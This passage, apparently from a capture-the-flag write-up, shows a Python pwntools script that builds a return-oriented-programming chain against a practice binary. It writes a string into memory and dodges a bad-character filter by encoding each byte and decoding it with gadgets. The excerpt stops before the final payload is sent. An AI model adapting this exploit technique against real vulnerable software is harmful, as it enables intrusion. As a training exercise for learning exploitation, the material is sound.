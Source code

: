 ## Exploit
We finally have everything we need to build the exploit
```python
#!/bin/python3
from pwn import *

# useful addresses
write_addr = 0x00601038     # bss addr
mov_addr = 0x00400634       # mov qword [r13], r12
sub_addr = 0x00400630       # sub byte [r15], r14b 
pop_regs = 0x0040069c       # pop r12-r15
pop_r14_r15 = 0x004006a0
pop_r15 = 0x004006a2
pop_rdi = 0x004006a3
print_file_addr = 0x00400510
junk = 0xdeadbeefdeadbeef

invalid_bytes = [ord('x'), ord('g'), ord('a'), ord('.')]

# write string s to address addr
# return ropchain in bytes
def write_str(addr, s):
    payload = b''
    r14 = p64(junk)
    r15 = p64(junk)

    # write every 8 bytes of a string
    for i in range(0, len(s), 8):

        # prevent slice out of bounds
        j = i+8
        if j > len(s):
            j = len(s)

        # 8 bytes to write
        r12 = p64(int.from_bytes(s[i:j], 'little'))
        # address to write to
        r13 = p64(addr + i)

        # fill registers
        payload += p64(pop_regs) + r12 + r13 + r14 + r15

        # write bytes
        payload += p64(mov_addr)
    return payload

# subtract 2 from every character
def decode_str(addr, s):
    payload = b''
    for i in range(0, len(s)):
        r14 = p64(0x2)
        r15 = p64(addr + i)
        payload += p64(pop_r14_r15) + r14 + r15
        payload += p64(sub_addr)
    return payload

# add 2 to every character
def encode_str(s):
    blist = bytearray(s)
    for i in range(0, len(blist)):
        blist[i] += 2
    return blist

```